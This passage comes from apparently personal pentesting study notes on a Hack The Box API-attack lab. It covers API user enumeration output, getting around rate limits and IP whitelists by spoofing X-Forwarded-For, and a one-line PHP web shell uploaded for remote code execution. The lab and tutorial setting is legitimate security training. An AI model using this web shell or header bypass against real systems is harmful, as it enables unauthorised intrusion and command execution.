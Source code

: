 ```shell
gitblanc@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
```

>[!Tip]
>If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. See an example below.

```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

The issue here is that the code compares the _HTTP_X_FORWARDED_FOR_ header to the possible _whitelist_ values, and if the _HTTP_X_FORWARDED_FOR_ is not set or is set without one of the IPs from the array, it'll give a 401. A possible bypass could be setting the _X-Forwarded-For_ header and the value to one of the IPs from the array.

### Information Disclosure through SQL Injection

SQL injection vulnerabilities can affect APIs as well. Try to use [Sqlmap 🪲](/notes/tools/Sqlmap.md)

## Arbitrary File Upload

### PHP File Upload via API to RCE

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`. When we browse the application, an anonymous file uploading functionality sticks out.

![](Pasted%20image%2020240906111806.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

